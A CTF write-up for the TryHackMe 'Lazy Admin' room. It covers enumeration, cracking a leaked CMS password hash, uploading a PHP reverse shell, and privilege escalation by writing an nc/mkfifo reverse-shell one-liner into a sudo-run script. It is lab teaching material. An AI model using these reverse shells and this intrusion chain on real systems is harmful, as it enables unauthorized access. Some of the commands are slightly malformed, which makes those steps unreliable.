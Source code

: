 #Lazy Admin

https://tryhackme.com/room/lazyadmin

1. user flag

echo <machine-ip> lazyadmin.com >> /etc/hosts

##Enumeration
nmap -sC -sV -oN nmap.txt lazyadmin.com
```nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-16 04:08 EDT
Nmap scan report for lazyadmin.com (10.10.240.121)
Host is up (0.26s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.82 seconds
```
```bash
firefox lazyadmin.com
```
We will run gobuster to enumerate the website
```bash
gobuster dir -u http://lazyadmin.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 35
```
```
/content
```
```bash
firefox lazyadmin.com/content
```
```lazyadmin.com/content
Welcome to SweetRice - Thank your for install SweetRice as your website management system.
This site is building now , please come late.

If you are the webmaster,please go to Dashboard -> General -> Website setting

and uncheck the checkbox "Site close" to open your website.

More help at Tip for Basic CMS SweetRice installed
```
```bash
gobuster dir -u http://lazyadmin.com/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 35
```
```
/inc
```
```bash
firefox lazyadmin.com/content/inc
```
```
we will see a folder named mysql_backup
navigate to mysql_backup and download the file
open the file using any text editor i use vim
```
```downloaded_sql_file
14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\
"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:
\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"
<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p>
```
```creds
manager : 42f749ade7f9e195bf475f37a44cafcb(MD5)
```
```bash
echo 42f749ade7f9e195bf475f37a44cafcb > hash.txt
john --format=RAW-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```creds
manager : Password123
```
```bash
firefox lazyadmin.com/content/as
```
and enter the creds to login
and navigate to media center
and upload the reverse shell if you dont have you can download it from the link below
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
after changing the ip address and renaming it to revshell.php5
we see the file is uploaded
open terminal and execute this
```bash
nc -lnvp 4444
``` 
now click on the uploaded file
and we got a shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
enter these two commands to spawn a tty terminal
move to /home/itguy

```
we got the user flag
```

2. root flag

##Privilege Escalation
```mysql.backup
rice : randompass
```
```back.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
this script executes another script /etc/copy.sh

```bash 
cat /etc/copy.sh
```
```contents_of_copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```
Luckily we can write into copy.sh 
now all we need to do is insert a reverse shell
```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your-ip> 5554" >/tmp/f > copy.sh
```
open a new terminal and run this command
```bash
nc -lnvp 5554
```
then go victim shell and execute this command
```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```
```
we got the user flag
```
